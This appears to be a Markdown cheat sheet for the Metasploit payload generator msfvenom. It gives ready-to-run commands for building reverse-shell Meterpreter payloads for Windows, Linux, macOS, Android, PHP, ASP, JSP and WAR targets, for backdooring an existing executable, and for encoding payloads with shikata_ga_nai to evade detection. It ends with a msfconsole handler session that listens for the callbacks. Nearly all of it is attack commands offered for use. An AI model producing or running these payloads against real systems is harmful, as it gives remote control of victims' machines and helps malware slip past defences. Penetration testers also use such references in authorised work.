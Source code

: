 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creating Binaries
The following create different binaries for meterpreter and reverse TCP shells:

### Creates a Reverse TCP Meterpreter Shell - Payload for Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple HTTP Payload for Windows
```
msfvenom -p windows/meterpreter/reverse_http LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple TCP Shell for Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f elf > payload.elf
```

### Creates a simple TCP Shell for Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f macho > example.macho
```

### Creates a simple TCP Payload for Android

```
msfvenom -p android/meterpreter/reverse/tcp LHOST={HOST/IP} LPORT={PORT} R > example.apk`	
```

## Web Payloads

### Creates a Simple TCP Shell for PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.php
```

### Creates a Simple TCP Shell for ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f asp > example.asp
```

### Creates a Simple TCP Shell for Javascrip
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.jsp
```

### Creates a Simple TCP Shell for WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f war > example.war
```

## Windows Payloads

### Lists all avalaible encoder
```
msfvenom -l encoders
```

### Binds an exe with a Payload (Backdoors an exe)
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > example.exe
```

### Creates a simple TCP payload with shikata_ga_nai encoder
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```

### Binds an exe with a Payload and encodes it
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe
```

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
